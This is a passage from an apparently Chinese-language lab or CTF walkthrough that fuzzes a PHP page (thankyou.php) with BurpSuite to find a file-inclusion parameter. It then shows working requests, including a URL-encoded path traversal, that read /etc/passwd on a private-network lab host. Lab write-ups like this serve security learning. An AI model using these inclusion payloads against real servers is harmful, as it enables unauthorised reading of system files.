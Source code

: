 
<img src="https://img-blog.csdnimg.cn/563c2c4550c64897ad4fa209317fce3e.png" alt="在这里插入图片描述">

>  
 打开这几个页面，发现发开footer.php时，不断刷新，图标也在不断地变化，确认文件包含页面是footer.php 


```
http://192.168.233.181/footer.php

```

<img src="https://img-blog.csdnimg.cn/d71fcc542a3340ebb01094b325c3d52b.png" alt="在这里插入图片描述">

### 6、Fuzz确认存在文件包含漏洞

>  
 使用BurpSuite爆破文件包含的变量名即可能被包含的值 


```
http://192.168.220.139/thankyou.php?page=footer.php

```

>  
 选择草叉模式进行爆破，选择两个爆破点，一个是文件包含变量名，一个是包含值 


<img src="https://img-blog.csdnimg.cn/6976df1e573e46219901f32dddcfa2e7.png" alt="在这里插入图片描述">

>  
 导入第一个字典，变量名字典 


<img src="https://img-blog.csdnimg.cn/a48c1a7e36c94e60adde4ecf335c99b3.png" alt="在这里插入图片描述">

>  
 导入第二个字典（passwd路径字典） 


<img src="https://img-blog.csdnimg.cn/53b41d911a534cbeaf3be432fe63a88a.png" alt="在这里插入图片描述">

>  
 成功爆破出八对值，但是只有一个变量名 


<img src="https://img-blog.csdnimg.cn/a882c8bbfc77467197489d178689d38a.png" alt="在这里插入图片描述">

```
/thankyou.php?file=%2e%2e%2fetc%2fpasswd

```

>  
 访问最短的吧路径，成功包含到字典 


```
http://192.168.233.181/thankyou.php?file=%2fetc%2fpasswd
http://192.168.233.181/thankyou.php?file=/etc/passwd

```
